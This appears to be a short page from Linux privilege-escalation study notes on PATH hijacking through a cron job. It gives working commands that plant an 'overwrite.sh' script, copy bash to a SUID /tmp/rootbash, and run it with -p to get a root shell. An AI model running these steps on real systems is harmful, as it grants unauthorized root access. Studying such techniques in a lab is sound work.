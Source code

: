 # PATH environment abuse 2

There is another way to escalate the privilege to root.

```
cat /etc/cron
```

<figure><img src="../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

You can add an additional PATH environment and create a new 'overwrite.sh' to run.&#x20;

{% code overflow="wrap" %}
```bash
# Target machine 
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /home/bla/overwrite.sh

export PATH=/home/bla:$PATH
```
{% endcode %}

Once the /tmp/rootbash file is created, execute it (with -p to preserve the effective UID) to gain a root shell.&#x20;

{% code overflow="wrap" %}
```bash
/tmp/rootbash –p
```
{% endcode %}
